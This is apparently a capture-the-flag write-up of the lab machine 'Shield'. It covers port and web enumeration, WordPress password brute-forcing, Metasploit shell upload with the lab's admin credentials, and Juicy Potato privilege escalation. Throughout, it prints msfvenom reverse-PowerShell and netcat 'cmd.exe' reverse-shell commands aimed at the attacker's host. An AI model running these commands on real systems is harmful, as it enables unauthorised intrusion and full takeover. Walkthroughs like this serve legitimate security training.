 ```yaml
---
title: "Writeup: Shield"
date: 2021-01-02T03:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - shield
  - update
  - Windows
  - nmap
  - nikto
  - wpscan
  - sqlmap
  - msf6
---
```


Here are notes from the named target:

**Enumeration**

NMAP

```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.29 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.29
 ```
 vuln scan the SQL service:
 
 ```yaml
 sudo nmap -sU --script=ms-sql-info 10.10.10.29
 ```
 
 ```yaml
 PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
```

Take a look at the web server:

Shows only the IIS start page so maybe scan it:

```yaml
nikto -h 10.10.10.29
```

nikto gave no results

*start dirsearch and it finds a site in the wordpress directory*


```yaml
┌──(kali㉿kali)-[~/dirsearch]
└─$ python3 dirsearch.py -e php -u http://10.10.10.29 --exclude-status 403,401

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )                                                             
                                                                                    
Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 8853

Error Log: /home/kali/dirsearch/logs/errors-21-01-02_04-14-59.log

Target: http://10.10.10.29/                                                         
                                                                                    
Output File: /home/kali/dirsearch/reports/10.10.10.29/_21-01-02_04-15-00.txt

[04:15:00] Starting: 
[04:16:03] 301 -    0B  - /Wordpress/  ->  http://10.10.10.29/wordpress/
[04:18:32] 200 -   24KB - /wordpress/                   
[04:18:32] 200 -    3KB - /wordpress/wp-login.php
                                                             
Task Completed   

```

*Wordpress Site with Login page*

Scan with wpscan:

```yaml
wpscan --url http://10.10.10.29/wordpress --enumerate p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.10
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.10.29/wordpress/ [10.10.10.29]
[+] Started: Sat Jan  2 04:26:20 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.10.29/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://10.10.10.29/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.10.29/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.10.29/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>
 |  - http://10.10.10.29/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mesmerize-companion
 | Location: http://10.10.10.29/wordpress/wp-content/plugins/mesmerize-companion/
 | Latest Version: 1.6.120
 | Last Updated: 2020-12-14T17:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | The version could not be determined.

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

```
Password attack with WPScan is possible but time consuming:

```yaml
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://10.10.10.29/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 20   
```
Searchsploit  for WordPress version 5.2.1 found no exploits looking in google - nothing in google:

I signed up for the free wpscan API and added that to my host. then reran wpscan

Basically it showed 25 vulnerabilities but as we have admin access without launching going to use msf6

**METASPLOIT**

remember use and set commands also run and exploit

as I am on a VPN set LHOST otherwise it uses non vpn address


Google search for [metasploit wordpress reverse shell][msf6-commands]

```yaml
msf6 auxiliary > use exploit/unix/webapp/wp_admin_shell_upload 
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /wordpress
targeturi => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.14.87
LHOST => 10.10.14.87
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.87:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/hWGKLAJXgv/rRORqnxhOH.php...
[*] Sending stage (39282 bytes) to 10.10.10.29
[*] Meterpreter session 1 opened (10.10.14.87:4444 -> 10.10.10.29:51869) at 2021-01-04 16:16:53 -0500
[+] Deleted rRORqnxhOH.php
[+] Deleted hWGKLAJXgv.php
[!] This exploit may require manual cleanup of '../hWGKLAJXgv' on the target

meterpreter > 
```
## YEA

Found a good video on how to do this and read about the exploit [Juicy Potato][jp-link]

Basic steps were to upload ne.exe to target and fire it off bat to kali box

set up SMB server locally to how files

use copy on windows box to pull over files

use msfvenom to make a batch file wit PS shell back kali box

copy all files over and open new nc listener for batch file to connect with

on win box run jp.exe call the batch file and use random port for the jp.exe to use to make internal connection

```yaml
Windows BAT Shell
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.87 lport=6768 > smog.bat

Windows Juicy Potato
jp.exe -t * -p smog.bat -l 4444  (can be any port not used)

Windows NC commands to connect to listening NC from msf6 meterpreter
──(kali㉿kali)-[~]
└─$ nc -nlvp 4321                                                                         
listening on [any] 4321 ...

meterpreter > upload /home/kali/temp/nc.exe
meterpreter > execute -f nc.exe -a "-e cmd.exe 10.10.14.87 4321"

```

that connection was as system and was able to grab root.txt hash



[msf6-commands]: https://www.hackingarticles.in/wordpress-reverse-shell/
[jp-jink]: https://www.youtube.com/watch?v=EkFUzbBSXBo

